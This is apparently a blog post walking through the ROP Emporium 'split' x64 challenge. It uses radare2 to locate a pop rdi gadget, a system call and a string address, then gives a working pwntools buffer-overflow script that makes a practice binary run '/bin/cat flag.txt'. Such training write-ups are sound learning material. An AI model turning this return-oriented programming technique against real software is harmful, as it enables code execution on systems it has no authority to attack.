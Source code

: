```yaml
---
layout: post
title:  "ROP Emporium split Writeup (x64)"
date:   2024-06-01 13:15:45 -0400
categories: rop-emporium challenge-2
tags: rop-emporium split x64 writeup buffer-overflow rop reverse-engineering 64-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[second challenge](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

According to the
[challenge page](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `system` with the argument `/bin/cat flag.txt`.
This string is also present in the binary!

> This is what a hint will look like!
{: .prompt-tip }

## x64 Calling Convention
We know from the first challenge we need to set the
instruction pointer to a function address in order to
call that function. But how do we pass arguments to
those functions?

In `x64` arguments are passed through specific registers.
The first three arguments correspond to the `rdi`, `rsi`,
and `rdx` registers respectively. 
[This x64 cheat sheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf){:target="_blank"}{:rel="noopener noreferrer"}
can help if you want to learn more about `x64`.

## Exploit Crafting
The offset for `x64` challenges will be `40 bytes`. If
you want to know how to get this value see the
[ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> Is there an address where `system()` is called?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/split/x64-addr.png)

Let's investigate `usefulFunction`. We can view
the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful-asm](/images/split/x64-useful-asm.png)

This function seems to `call` the `system()` function
with the argument `/bin/ls`. We want to change the
argument but let's take note of the `call` address
`0x0040074b`

### Setting Arguments
> Find a gadget which sets the `rdi` register
{: .prompt-tip }
According to the
[x64 calling convention](https://ropemporium.com/challenge/split.html){:target="_blank"}{:rel="noopener noreferrer"},
a function's first argument is passed through the
`rdi` register. In order to set this value we need
to find a `pop rdi` gadget which will take a value
off of the stack and place it into `rdi`

We can search for ROP gadgets in `radare2` with the `/R`
command

```
/R pop rdi
```
![rdi-addr](/images/split/x64-rdi-addr.png)

The address of our gadget is `0x004007c3`. Once we call
this gadget, we'll need to pass the address of the
string we want to execute onto the stack.

### String Address
> The string `/bin/cat flag.txt` exists in the binary
{: .prompt-tip }
Using `radare2` again we can search for case insensitive
strings with the `/i` command. So to find the address
of `/bin/cat flag.txt` we run

```
/i /bin/cat flag.txt
```
![cat-addr](/images/split/x64-cat-addr.png)

Awesome the address of the string is `0x00601060`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
str_addr = 0x00601060
sys_addr = 0x0040074b
pop_rdi_addr = 0x004007c3

# create payload
payload = b'A' * 40
# set arg1 (pop rdi)
payload += p64(pop_rdi_addr)
payload += p64(str_addr)
# call sys
payload += p64(sys_addr)

# send payload + receive flag
io = process('./split')
io.recv()
io.sendline(payload)
print(io.recvline())
success(io.recvline())
```
![flag](/images/split/x64-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.

[Previous Challenge (ret2win)]({% post_url 2024-05-31-rop-emporium-ret2win-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

[split x86]({% post_url 2024-06-01-rop-emporium-split-x86%}){:target="_blank"}{:rel="noopener noreferrer"}
